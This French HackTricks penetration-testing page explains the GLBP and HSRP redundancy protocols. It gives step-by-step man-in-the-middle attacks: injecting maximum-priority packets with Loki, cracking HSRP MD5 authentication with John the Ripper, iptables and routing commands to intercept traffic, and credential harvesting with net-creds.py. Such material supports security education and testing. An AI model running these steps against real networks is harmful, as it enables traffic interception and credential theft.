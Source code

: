 # Attaques GLBP & HSRP

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Aperçu du détournement FHRP

### Informations sur FHRP
FHRP est conçu pour fournir une robustesse réseau en fusionnant plusieurs routeurs en une seule unité virtuelle, améliorant ainsi la distribution de charge et la tolérance aux pannes. Cisco Systems a introduit des protocoles importants dans cette suite, tels que GLBP et HSRP.

### Informations sur le protocole GLBP
La création de Cisco, GLBP, fonctionne sur la pile TCP/IP, utilisant UDP sur le port 3222 pour la communication. Les routeurs dans un groupe GLBP échangent des paquets "hello" à des intervalles de 3 secondes. Si un routeur ne parvient pas à envoyer ces paquets pendant 10 secondes, il est présumé hors ligne. Cependant, ces minuteries ne sont pas fixes et peuvent être modifiées.

### Opérations GLBP et distribution de charge
GLBP se distingue en permettant la distribution de charge entre les routeurs en utilisant une seule adresse IP virtuelle couplée à plusieurs adresses MAC virtuelles. Dans un groupe GLBP, chaque routeur participe à la transmission des paquets. Contrairement à HSRP/VRRP, GLBP offre un véritable équilibrage de charge grâce à plusieurs mécanismes :

- **Équilibrage de charge dépendant de l'hôte :** Maintient l'attribution d'adresse MAC AVF cohérente à un hôte, essentiel pour des configurations NAT stables.
- **Équilibrage de charge en round-robin :** L'approche par défaut, alternant l'attribution d'adresse MAC AVF parmi les hôtes demandeurs.
- **Équilibrage de charge pondéré en round-robin :** Distribue la charge en fonction de métriques de "Poids" prédéfinies.

### Composants clés et terminologies dans GLBP
- **AVG (Passerelle virtuelle active) :** Le routeur principal, responsable de l'attribution des adresses MAC aux routeurs pairs.
- **AVF (Transmetteur virtuel actif) :** Un routeur désigné pour gérer le trafic réseau.
- **Priorité GLBP :** Une métrique qui détermine l'AVG, commençant par une valeur par défaut de 100 et allant de 1 à 255.
- **Poids GLBP :** Reflète la charge actuelle sur un routeur, ajustable manuellement ou via le suivi d'objets.
- **Adresse IP virtuelle GLBP :** Sert de passerelle par défaut du réseau pour tous les appareils connectés.

Pour les interactions, GLBP utilise l'adresse multicast réservée 224.0.0.102 et le port UDP 3222. Les routeurs transmettent des paquets "hello" à des intervalles de 3 secondes et sont considérés comme non opérationnels si un paquet est manqué pendant une durée de 10 secondes.

### Mécanisme d'attaque GLBP
Un attaquant peut devenir le routeur principal en envoyant un paquet GLBP avec la valeur de priorité la plus élevée (255). Cela peut entraîner des attaques de déni de service ou de l'homme du milieu, permettant l'interception ou la redirection du trafic.

### Exécution d'une attaque GLBP avec Loki
[Loki](https://github.com/raizo62/loki_on_kali) peut effectuer une attaque GLBP en injectant un paquet avec une priorité et un poids définis à 255. Les étapes préalables à l'attaque consistent à recueillir des informations telles que l'adresse IP virtuelle, la présence d'authentification et les valeurs de priorité du routeur à l'aide d'outils comme Wireshark.

Étapes de l'attaque :
1. Passer en mode promiscuous et activer le transfert IP.
2. Identifier le routeur cible et récupérer son IP.
3. Générer une ARP gratuit.
4. Injecter un paquet GLBP malveillant, en se faisant passer pour l'AVG.
5. Attribuer une adresse IP secondaire à l'interface réseau de l'attaquant, reflétant l'adresse IP virtuelle GLBP.
6. Mettre en œuvre SNAT pour une visibilité totale du trafic.
7. Ajuster le routage pour garantir un accès continu à Internet via le routeur AVG d'origine.

En suivant ces étapes, l'attaquant se positionne en tant qu'"homme du milieu", capable d'intercepter et d'analyser le trafic réseau, y compris les données non chiffrées ou sensibles.

Pour la démonstration, voici les extraits de commandes requis:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Explication passive du détournement de HSRP avec Détails des Commandes

#### Aperçu de HSRP (Protocole de redondance/de routeur en veille active)
HSRP est un protocole propriétaire de Cisco conçu pour la redondance de passerelle réseau. Il permet la configuration de plusieurs routeurs physiques en une seule unité logique avec une adresse IP partagée. Cette unité logique est gérée par un routeur principal responsable de la direction du trafic. Contrairement à GLBP, qui utilise des métriques comme la priorité et le poids pour l'équilibrage de charge, HSRP repose sur un seul routeur actif pour la gestion du trafic.

#### Rôles et Terminologie dans HSRP
- **Routeur Actif HSRP**: Le dispositif agissant en tant que passerelle, gérant le flux de trafic.
- **Routeur Standby HSRP**: Un routeur de secours, prêt à prendre le relais si le routeur actif échoue.
- **Groupe HSRP**: Un ensemble de routeurs collaborant pour former un seul routeur virtuel résilient.
- **Adresse MAC HSRP**: Une adresse MAC virtuelle attribuée au routeur logique dans la configuration HSRP.
- **Adresse IP Virtuelle HSRP**: L'adresse IP virtuelle du groupe HSRP, agissant en tant que passerelle par défaut pour les appareils connectés.

#### Versions de HSRP
HSRP existe en deux versions, HSRPv1 et HSRPv2, différant principalement en capacité de groupe, utilisation d'IP multicast et structure d'adresse MAC virtuelle. Le protocole utilise des adresses IP multicast spécifiques pour l'échange d'informations de service, avec des paquets Hello envoyés toutes les 3 secondes. Un routeur est considéré comme inactif s'il ne reçoit aucun paquet dans un intervalle de 10 secondes.

#### Mécanisme d'attaque HSRP
Les attaques HSRP impliquent de prendre de force le rôle du Routeur Actif en injectant une valeur de priorité maximale. Cela peut entraîner une attaque de l'Homme du Milieu (MITM). Les étapes essentielles préalables à l'attaque incluent la collecte de données sur la configuration HSRP, ce qui peut être fait en utilisant Wireshark pour l'analyse du trafic.

#### Étapes pour contourner l'authentification HSRP
1. Enregistrer le trafic réseau contenant des données HSRP dans un fichier .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Extraire les hachages MD5 du fichier .pcap en utilisant hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Casser les hachages MD5 en utilisant John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Exécution de l'injection HSRP avec Loki**

1. Lancer Loki pour identifier les annonces HSRP.
2. Définir l'interface réseau en mode promiscuité et activer le transfert IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Utiliser Loki pour cibler le routeur spécifique, entrer le mot de passe HSRP cassé et effectuer les configurations nécessaires pour se faire passer pour le Routeur Actif.
4. Après avoir obtenu le rôle de Routeur Actif, configurer votre interface réseau et les tables IP pour intercepter le trafic légitime.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Modifier la table de routage pour router le trafic à travers l'ancien Routeur Actif.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Utiliser net-creds.py ou un utilitaire similaire pour capturer les informations d'identification à partir du trafic intercepté.
```shell
sudo python2 net-creds.py -i eth0
```

L'exécution de ces étapes place l'attaquant dans une position pour intercepter et manipuler le trafic, similaire à la procédure de détournement de GLBP. Cela met en évidence la vulnérabilité des protocoles de redondance comme HSRP et la nécessité de mesures de sécurité robustes.
